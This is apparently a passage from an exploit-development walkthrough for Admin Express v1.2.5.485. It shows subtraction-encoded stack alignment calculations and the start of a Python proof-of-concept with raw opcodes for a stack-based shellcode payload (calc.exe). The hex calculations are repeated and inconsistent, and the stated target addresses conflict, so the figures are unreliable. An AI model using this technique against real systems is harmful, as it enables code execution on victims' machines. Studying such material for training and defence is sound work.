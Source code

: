 Starting with the bottom row, we need to take each hexadecimal value and write it going up the columns! For instance, here is the first value:

```console
255 = 85(55) + 85 (55) + 85(55)
255 = 85(55) + 85 (55) + 85(55)
232 = 78(4E) + 77 (4D) + 77(4D)
160 = 54(36) + 54 (36) + 56(38)
_______________________________
384E5555
```

The second value is:

```console
255 = 85(55) + 85 (55) + 85(55)
255 = 85(55) + 85 (55) + 85(55)
232 = 78(4E) + 77 (4D) + 77(4D)
160 = 54(36) + 54 (36) + 56(38)
_______________________________
384E5555    364D5555
```

The last value is:

```console
255 = 85(55) + 85 (55) + 85(55)
255 = 85(55) + 85 (55) + 85(55)
232 = 78(4E) + 77 (4D) + 77(4D)
160 = 54(36) + 54 (36) + 56(38)
_______________________________
384E5555    364D5555    364D5555
```

Our three values are: `364D5555`, `364D5555`, `384E5555`. Whenever you do this math, it changes the stack pointer value to `0012F3F4`. Before we do this math though, we will execute a few instructions. They are:
1. `push esp` - to get the value of the current stack pointer on the stack.
2. `pop eax` - to pop the stack pointer value into `EAX`.

After these instructions, we begin commencement of our subtraction math. After the subtraction math, we will then execute a few more instructions. They are:
1. `push eax` - `EAX` contains the value of the `0012F3F0`, which is where we want our stack pointer value to be, since we will be writing our shellcode up the stack, to lower memory addresses.
2. `pop esp` - this will pop the value of `EAX` (`0012F3F0`) into the stack pointer.

One thing before we start- `\x2d` is the opcode for `sub eax`, which is subtracting from `EAX`.

After all these instructions are executed, we can begin writing our shellcode to the stack! Here is the updated PoC, at this point:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit


# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54"                        # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59"                       # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51"                       # push ecx; (to get the value on the stack for the mov esp command later)

# Stack alignment
# Need to make ESP 0x012F3F4. Using sub method to write that value onto the stack.
# After making ESP 0x012F3F4, it should be the same value as EAX- so we can write up the stack.
```